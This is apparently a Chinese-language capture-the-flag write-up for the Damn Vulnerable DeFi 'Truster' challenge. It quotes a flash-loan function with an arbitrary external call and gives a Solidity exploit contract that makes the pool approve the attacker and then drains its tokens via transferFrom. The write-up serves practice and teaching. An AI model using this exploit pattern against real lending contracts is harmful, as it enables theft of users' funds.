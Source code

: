 # Truster (24/09/02)

## 题目介绍

> 越来越多的贷款池正在提供闪借贷款。在这种情况下，一个新的池已经启动，免费提供DVT代币的闪款。
>
> 该池持有100万个DVT代币。你一无所有。
>
> 要通过这一挑战，请拯救池中执行单笔交易的所有资金。将资金存入指定的回收账户。

## 合约分析

就一个合约然后一个flashloan的函数，内部有一个任意外部调用漏洞。发现前后验证两次余额是否一致，可以直接接收者指定当前合约或者攻击合约数量为0指定攻击合约都可以。调用代币的approve函数授权到攻击合约。之后直接转移代币。完成攻击。

``` solidity
      function flashLoan(uint256 amount, address borrower, address target, bytes calldata data)
        external
        nonReentrant
        returns (bool)
    {
        uint256 balanceBefore = token.balanceOf(address(this));

        token.transfer(borrower, amount);
        target.functionCall(data);

        if (token.balanceOf(address(this)) < balanceBefore) {
            revert RepayFailed();
        }

        return true;
    }
```



## 解题过程

直接任意外部调用代币的approve到攻击合约，再通过transferfrom转移代币完成攻击，
poc

``````solidity
 contract Exploit {
    constructor(TrusterLenderPool pool, DamnValuableToken token, address recoveryAddress) payable {
        bytes memory data = abi.encodeWithSignature("approve(address,uint256)", address(this), token.balanceOf(address(pool)));
        pool.flashLoan(10000, address(pool), address(token), data);
        token.transferFrom(address(pool), address(recoveryAddress), token.balanceOf(address(pool)));
    }
}
``````
